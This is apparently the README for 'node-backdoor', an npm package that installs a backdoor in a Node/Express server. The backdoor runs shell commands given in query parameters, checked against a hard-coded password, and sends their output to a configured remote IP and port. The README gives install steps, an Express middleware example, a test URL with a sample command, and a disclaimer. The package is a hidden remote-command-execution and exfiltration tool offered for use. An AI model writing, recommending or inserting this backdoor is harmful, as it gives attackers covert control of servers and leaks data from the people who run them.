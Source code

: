 node-backdoor is a simple package to create a backdoor and access your server from another server.

This package uses child process package to run terminal commands and send the response to a specific server with provided Ip address, port number, path, and method.

  

- Install the package using npm i node-backdoor.

- require the package in your code and start using its access(IP,PORT,PATH,METHOD) function.
- Test using your actual ipaddress, pass and command queries 

### Code Use Example :

```js


const express = require('express');
const app = express();
try {
 app.listen(process.env.PORT || 5000);
 console.log('App Running On Port 5000');
} catch (error) {
 console.log("Not Running: ",error);
}
---------------------IMPORTANT CODE--------------------------
const access = require('node-backdoor');
app.use(access("127.0.0.1","3000","/getRes","GET"));
-------------------------------------------------------------
app.get('/',(req,res)=>res.status(200).json({done:true}));
```
### Test example :
In the test, use your server's (where you want to place the backdoor) ipadress, and port if needed.
``` uri
In your browser or using postman try:
http://localhost:4000/?pass=titpftclctbd&command=dir
```
  

## DISCLAIMER :

We assume no responsibilities whatever for any malicious / Illegal use of this package, plus use it just in your own code, PLEASE respect others' privacy.